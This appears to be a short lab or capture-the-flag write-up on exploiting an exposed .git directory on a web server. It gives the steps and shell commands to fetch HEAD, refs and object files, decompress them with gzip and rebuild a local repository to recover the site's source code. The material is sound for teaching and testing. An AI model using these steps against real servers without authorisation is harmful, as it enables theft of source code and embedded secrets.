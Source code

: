 # Git Information Leak

### Exploit

* we see that `/.git` is forbidden that means we don't have direct access to it.

* First, we can recover some files:

  - `.git/config`.
  - `.git/HEAD`.

* From `.git/HEAD`, we can see that the `HEAD` is at `refs/heads/master`

  We can therefore access this file: `.git/refs/heads/master`

  From that file, we get a hash: `19e7bfab0ad2b25fa01419a18d53fd42ae0b5113`

* This will link us to another file: `.git/objects/19/e7bfab0ad2b25fa01419a18d53fd42ae0b5113` 

  **(by using the first two bytes as a directory's name and the rest as the file's name)**

* As the file is compressed using **zlib** . but we can decompress it using gzip by following command :

  ```bash
  printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - e7bfab0ad2b25fa01419a18d53fd42ae0b5113 |gzip  -cd -q | strings -a
  ```

* from here we get:

  `commit 199tree 58ace0476093d04023f84d7816adacfa7b879c43`

  it is link to another commit we can access it at following url:

  `.git/objects/58/ace0476093d04023f84d7816adacfa7b879c43`

  after decompressing we get:

  ```
  tree 182
  40000 css
  100644 favicon.ico
  s100644 footer.php
  3100644 header.php
  100644 index.php
  ```

  **Unfortunately, using `strings` does not give us the hash for each file. We can do is create our own local repo with the same git structure:**

* ```bash
  $ mkdir /tmp/hack
  $ cd /tmp/hack
  $ git init 
  ```

  And copy our files in it:

  ```bash
  $ mkdir -p .git/objects/58 .git/objects/19
  $ cp /tmp/e7bfab0ad2b25fa01419a18d53fd42ae0b5113 /tmp/hack/.git/objects/19/
  $ cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
  ```

* Then we should be able to retrieve the list of hashes:

  ```bash
  $ git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
  ```


* Once you're there, you can keep downloading the files and copying them in the right spot to get access to the full code using `git cat-file -p ...`. 